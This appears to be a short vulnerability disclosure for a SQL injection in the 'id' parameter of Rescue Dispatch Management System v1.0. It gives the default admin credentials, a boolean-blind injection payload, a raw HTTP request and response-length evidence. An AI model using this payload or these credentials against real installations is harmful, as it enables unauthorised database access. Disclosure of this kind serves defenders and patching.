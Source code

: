 # Rescue Dispatch Management System v1.0 by oretnom23 has SQL injection

The password for the backend login account is: admin/admin123

vendors: https://www.sourcecodester.com/php/15296/rescue-dispatch-management-system-phpoop-free-source-code.html

Vulnerability File:  rdms/admin/respondent_types/view_respondent_type.php?id=

Vulnerability location: /rdms/admin/respondent_types/view_respondent_type.php?id=,id

[+] Payload: /rdms/admin/respondent_types/view_respondent_type.php?id=1%27%20and%20length(database())%20=7--+ // Leak place ---> id

Current database name: rdms_db,length is 7

```sql
GET /rdms/admin/respondent_types/view_respondent_type.php?id=1%27%20and%20length(database())%20=7--+ HTTP/1.1
Host: 192.168.1.19
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Cookie: PHPSESSID=hkbchcmaitn0d8enhm4jtdjk9q
Connection: close
```

When length (database ()) = 6, Content-Length: 799
![image](https://user-images.githubusercontent.com/54017627/170463788-4e58e028-d7cc-429f-abd4-cf63a3ce57d3.png)

![image](https://user-images.githubusercontent.com/54017627/170463537-066d3e04-e215-4a28-a8c4-6c1adf0d97b1.png)

When length (database ()) = 7, Content-Length: 653
![image](https://user-images.githubusercontent.com/54017627/170463756-1c758ebf-39e5-4f26-8695-d7e46aca6bc4.png)

![image](https://user-images.githubusercontent.com/54017627/170463484-72f66ab9-b4a3-4c7e-8be6-2ed41751e377.png)

